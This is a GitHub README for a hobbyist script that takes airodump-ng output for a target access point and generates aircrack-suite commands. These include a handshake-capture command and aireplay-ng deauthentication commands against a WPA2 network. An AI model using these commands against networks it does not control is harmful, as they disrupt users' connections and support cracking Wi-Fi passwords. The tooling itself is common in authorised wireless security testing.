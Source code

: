 ### Read Me
# WiFi aircrack laziness
WiFi aircrack laziness is a lazy ass script to take the output for a given Target from airodump-ng (see output example below) and generate all the necessary aircrack commands for listening for handshakes and doing replays for DeAuthentication. 

The script is designed to take an input from the user which can be typed out or copy and pasted in and if everything goes accordingly and if the inputs is clean meaning nothing anything out of the ordinary it should generate the commands and print them out to the terminal. It also additionally outputs the Mac address or bssid as well as the SSID so that you can visually confirm that it grab them correctly. I would suggest also confirming that the channel is correct in the outputted commands.

As stated before the script is for pure laziness purposes although it might speed up a workflow. I'm using this project to learn stuff so it's far from perfect I'm sure. If you see any issues or have any suggestions feel free to let me know.


## Output from airodump-ng example:

	24:6F:20:41:FA:FA  -77       58      421    0   6  54e  WPA2 CCMP   PSK  1.0 LAB,DISP       The_ssid
## Output of this script example:

	DUMP your input to start: 24:6F:20:41:FA:FA  -77       58      421    0   6  54e  WPA2 CCMP   PSK  1.0 LAB,DISP       The_ssid
	
	HELLO welcome to first time config.
	lets get your wifi interface and save it.
	You can delete or mod the inter_face.txt file to reset 
	or just set it to what you want...
	Anyway
	====================
	1. wlan0mon
	2. wlan1mon
	3. mon0
	4. mon1
	5. wlan0
	6. wlan1
	U. user defined
	====================
	Input the Monitor Interface
	
	choose :6
	setting to wlan1
	
	
	==========
	INFO
	==========
	
	WiFi Interface is set to : wlan1
	MAC/BSSID of AP is: 24:6F:20:41:FA:FA
	SSID of AP is: The_ssid
	Commands Generated...
	
	==========
	Listening
	==========
	sudo airodump-ng -w The_ssid --channel 6 --bssid 24:6F:20:41:FA:FA wlan1
	
	========================
	Replay Stuff For DeAuth
	========================
	sudo aireplay-ng -0 5 -e The_ssid wlan1   <===Normal
	sudo aireplay-ng -0 5 -a 24:6F:20:41:FA:FA wlan1   <===If SSID has a Space in it
	sudo aireplay-ng -0 5 -a 24:6F:20:41:FA:FA -c <input target mac here> wlan1   <===Hard-Mode
